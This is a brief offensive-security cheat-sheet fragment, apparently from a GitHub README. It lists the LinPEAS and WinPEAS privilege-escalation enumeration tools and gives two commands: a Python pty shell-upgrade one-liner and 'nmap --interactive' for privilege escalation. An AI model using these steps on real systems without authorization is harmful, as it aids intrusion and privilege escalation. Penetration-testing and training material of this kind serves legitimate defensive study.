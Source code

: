|  Name   |                                      Description                                       |                   Source & Documentation                    |
|:-------:|:--------------------------------------------------------------------------------------:|:-----------------------------------------------------------:|
| Linpeas | Gather useful post exploitation datas on GNU/Linux, watch privesc opportunities faster | https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS |
| Winpeas |  Gather useful post exploitation datas on Windows, watch privesc opportunities faster  | https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS |



- Spawn interactive shell: 
```vim
python -c import pty;pty.spawn("/bin/bash")
```

- Privilege escalation with nmap :  
```vim
nmap --interactive
```